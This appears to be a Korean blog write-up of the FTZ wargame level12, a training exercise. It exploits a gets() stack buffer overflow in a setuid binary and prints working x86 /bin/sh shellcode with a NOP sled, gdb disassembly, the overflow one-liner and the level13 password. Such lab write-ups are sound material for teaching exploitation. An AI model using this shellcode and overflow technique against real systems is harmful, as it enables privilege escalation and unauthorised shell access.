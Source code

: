 ```yaml
---
title: "[FTZ] level12 풀이"
categories:
  - ftz
tags:
  - FTZ
toc: true
toc_sticky: true
toc_label: "level12 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/ftz.png
---
```


💡 FTZ level12 풀이
{: .notice--warning}


# 문제

계정 : level12/it is like this

**hint**
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( void )
{
        char str[256];

        setreuid( 3093, 3093 );
        printf( "문장을 입력하세요.\n" );
        gets( str );
        printf( "%s\n", str );
}

```

# 풀이

11번과 동일하게 bof 취약점을 이용해서 리턴 주소를 SHELLCODE 주소로 바꿔줍니다.

쉘 코드는 환경 변수에 담아 줍니다. 쉘 코드 위치가 몇 바이트씩 오차가 생기기 때문에 맨 앞에 nop 문자를 담아서 오류를 최소화 해줍니다.

```sh
[level12@ftz level12]$ export SHELLCODE=$(python -c 'print("\x90"*30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")')
```

환경 변수의 메모리 주소를 구해줍니다.

**env.c**

```c
int main(){
  printf("%p\n",getenv("SHELLCODE"));
}
```

컴파일 후 실행하여 SHELLCODE 환경변수의 주소를 구합니다.
```sh
[level12@ftz tmp]$ gcc -o env env.c
[level12@ftz tmp]$ ./env
0xbffffc0f
```

환경 변수의 주소는 **0xbffffc0f**입니다.

이제 bof 취약점을 발생시키기 위해서 gdb로 메모리 구조를 분석합니다.


```sh
[level12@ftz level12]$ gdb -q attackme
(gdb) set disass intel
(gdb) disass main
Dump of assembler code for function main:
0x08048470 <main+0>:    push   ebp
0x08048471 <main+1>:    mov    ebp,esp
0x08048473 <main+3>:    sub    esp,0x108    //str[256]할당
0x08048479 <main+9>:    sub    esp,0x8
0x0804847c <main+12>:   push   0xc15
0x08048481 <main+17>:   push   0xc15
0x08048486 <main+22>:   call   0x804835c <setreuid>
0x0804848b <main+27>:   add    esp,0x10
0x0804848e <main+30>:   sub    esp,0xc
0x08048491 <main+33>:   push   0x8048538
0x08048496 <main+38>:   call   0x804834c <printf>
0x0804849b <main+43>:   add    esp,0x10
0x0804849e <main+46>:   sub    esp,0xc
0x080484a1 <main+49>:   lea    eax,[ebp-264]
0x080484a7 <main+55>:   push   eax
0x080484a8 <main+56>:   call   0x804831c <gets>
0x080484ad <main+61>:   add    esp,0x10
0x080484b0 <main+64>:   sub    esp,0x8
0x080484b3 <main+67>:   lea    eax,[ebp-264]
0x080484b9 <main+73>:   push   eax
0x080484ba <main+74>:   push   0x804854c
0x080484bf <main+79>:   call   0x804834c <printf>
0x080484c4 <main+84>:   add    esp,0x10
0x080484c7 <main+87>:   leave
0x080484c8 <main+88>:   ret
0x080484c9 <main+89>:   lea    esi,[esi]
0x080484cc <main+92>:   nop
0x080484cd <main+93>:   nop
0x080484ce <main+94>:   nop
0x080484cf <main+95>:   nop
End of assembler dump.

```

gdb 실행 결과를 보니 스택은 다음과 같이 되어 있습니다.

```
ret (4)
ebp (4)
dummy (8)
str (256)
```

따라서 str에 268바이트 만큼 덮어쓴 뒤 마지막 4바이트에 환경변수 주소로 ret 주소를 덮어 써 줍니다.

```sh
[level12@ftz level12]$ (python -c 'print("A"*268+"\x0f\xfc\xff\xbf")';cat) | ./attackme
문장을 입력하세요.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA??

id
uid=3093(level13) gid=3092(level12) groups=3092(level12)

my-pass

Level13 Password is "have no clue".
```

쉘을 획득했습니다.

